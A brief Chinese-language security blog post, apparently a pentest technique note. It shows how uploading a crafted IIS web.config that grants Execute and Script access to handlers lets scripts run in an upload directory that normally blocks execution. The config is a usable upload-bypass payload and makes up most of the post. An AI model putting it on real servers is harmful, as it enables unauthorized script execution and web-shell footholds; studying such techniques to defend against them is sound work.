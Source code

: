 ```yaml
---
title: "Web.config 突破权限限制"
date: 2018-07-19T00:00:00+08:00
draft: false
tags: ['asp.net']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


在一个可读写的目录里无法执行脚本, 通过上传特殊的 `web.config` 文件突破限制.

<!--more-->

```
<?xml version="1.0" encoding="utf-8"?>
<configuration>
    <system.webServer>
        <handlers accessPolicy="Read, Write, Execute, Script" />
    </system.webServer>
</configuration>
```